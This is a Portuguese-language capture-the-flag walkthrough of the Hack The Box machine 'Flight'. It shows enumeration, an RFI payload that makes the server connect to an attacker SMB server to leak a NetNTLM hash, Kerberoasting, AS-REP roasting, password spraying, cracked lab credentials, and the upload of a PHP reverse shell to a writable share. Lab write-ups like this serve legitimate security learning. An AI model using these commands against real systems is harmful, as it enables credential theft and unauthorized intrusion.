

# Flight

## Enumeration

Nmap script




UDP scan


Full TCP scan

.png)

Então temos:

DNS HTTP Kerberos RPC SMB LDAP

### HTTP


 =======> Possible entry point

Dando sequência após a enumeração dos demais. Nada encontrado exceto por este subdomínio:

```
school.flight.htb
```

### SMB


```
g0.flight.htb
```


### RPC


### LDAP


### Kerberos

```
kerbrute userenum --domain flight.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.11.187
```


### DNS


### HTTP continue

```
school.flight.htb
```


Aqui eu notei que o que muda é o parâmetro "view" da URL, então eu tentei esse mesmo teste, mas de maneira diferente:

```
ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 1102
```


As que vieram diferentes foram:


```
g0.flight.htb
```


Deu em nada aqui

No entanto, se formos parar para perceber, me parece que isso pode estar sendo consultado no banco de dados... Vamos para um outro teste :

#### SQLi

```
ffuf -c -ic -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 7069,1170,1102
```


#### LFI

PWNED!


## Exploitation

Para conseguir explorar essa vulnerabilidade, testei algumas coisas, no entanto, imaginei que fosse algum arquivo que eu deveria extrair e , na verdade se tratava de um RFI e, sendo assim, seria possível obter o hash de senha por meio do seguinte payload:

```
impacket-smbserver -smb2support smb .

http://school.flight.htb/index.php?view=//10.10.14.14/smb/test.txt
```

Dessa forma eu forço o sistema a me enviar o hash netNTLM da máquina e eu posso extraí-lo para quebrá-lo e dar sequência no ataque:


Tentativa com Kerberoasting

```
impacket-GetUserSPNs 'flight.htb/svc_apache:S@Ss!K@*t13' -dc-ip 10.10.11.187 -request
```

As Rep Roasting:

```
impacket-GetNPUsers -dc-ip 10.10.11.187 flight.htb/ -usersfile users.txt -format john -outputfile hashes

enum4linux -u svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
 
```

Comecei a entrar em vários diretórios, mas de novo sem saber exatamente o que procurar no SMB, exceto pelo Groups.xml Enumerei pelo bloodhound:

```
 bloodhound-python -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb -v --zip -c All -dc g0.flight.htb -ns 10.10.11.187
 
```

Sem sucesso. Password Spray:

```
crackmapexec ldap 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p passwords.txt --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue
```


Continuando a enumeração:

```
crackmapexec smb 10.10.11.187 -u 's.moon' -p 'S@Ss!K@*t13' --shares
```


Nesse momento, é interessante considerar a possibilidade de explorar o serviço via SMB, dado que temos autorização de escrita em um dos compartilhamentos listados. Temos alguns vetores para este caso,sendo eles documentados [aqui](../../3\_Exploitation/SMB.md)

Utilizando um desktop.ini com o exemplo obtido na referência acima, conseguimos a credencial do c.bum

c.bum:Tikkycoll\_431012284

Que tem acesso de escrita em uma pasta compartilhada também chamada Web:

```
crackmapexec smb 10.10.11.187 -u c.bum -p 'Tikkycoll_431012284' --shares
```

Depois disso, basta subir uma shell reversa em PHP para conseguir execução de comandos na máquina:

```
smbclient -U flight.htb/c.bum //10.10.11.187/Web -c "put revshell.php"
```
